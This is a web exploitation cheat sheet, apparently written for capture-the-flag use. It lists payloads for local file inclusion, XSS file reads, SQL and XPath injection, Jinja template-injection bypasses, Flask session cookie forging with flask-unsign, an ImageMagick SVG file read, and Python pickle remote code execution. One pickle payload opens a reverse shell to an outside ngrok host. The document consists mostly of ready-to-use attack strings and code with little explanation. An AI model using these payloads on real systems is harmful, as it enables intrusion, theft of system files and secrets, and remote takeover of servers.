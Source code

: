### Interesting protocols

- `file:///etc/passwd`

### Interesting headers

  - `X-Forwarded-Host`
    - Password reset poisoning

### Local File Inclution
  - `/robots.txt`
  - `/.git`
  - `/sitemap.xml`
  - `?file=php://filter/convert.base64-encode/resource=/etc/passwd`
  - `?file='.system("cat /flag*").'`
  - `/../../../../../../proc/self/environ`
  - `/_nuxt/@fs/flag.txt`

### XSS

  - **LFI** read file
```javascript
<script>
  x = new XMLHttpRequest;
  x.onload=function() {
    document.write(this.responseText)
  }; 
  x.open("GET", "file:///etc/passwd");
  x.send();
</script>;
````

### SQLi

- `UNION`

```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

### XPath Injection

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

### Type juggling with data

- `Playing with header`

  - `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
  - [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

### Server side template injection (SSTI)

- `Python`

  - Filtered `.`, `[]`
    - `obj.attribute` -> `obj|attr('attribute')` (`attr` is a filter in jinja template engine)
    - `obj[index]` -> `obj.__getitem__(index)` -> `obj|attr('__getitem__')(index)`
    - `obj['key']` -> `obj.__getitem__('key')` -> `obj|attr('__getitem__')('key')`

### JWT

- `Flask session cookie`
    - `flask-unsign --decode --cookie eyJsb2dnZWRfaW4iOmZhbHNlfQ.Yg9geQ.s8MKSRemMQyS5S60QTS0lY0Xg0o`
    - `flask-unsign --unsign --cookie < cookie.txt`
    - `flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'`
    
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


### Python pickle

- **RCE**
```python
import pickle, base64

class DillPickle:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, (['/bin/cat', '/ls'],))

print(base64.b64encode(pickle.dumps(DillPickle())).decode())
```

- **Get shell**
```python
class RCE(object):
  def __reduce__(self):
    return (os.system,('''python2 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.jp.ngrok.io",13180));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

p = base64.b64encode(pickle.dumps(RCE())).decode()
```

### Imagemagick

- File upload read local file (xxe)

  - Payload 
    ```
      <?xml version="1.0" encoding="UTF-8"?>
      <svg width="500px" height="500px">
        <image width="500" height="500" href="text:/etc/passwd" />
      </svg>
    ```

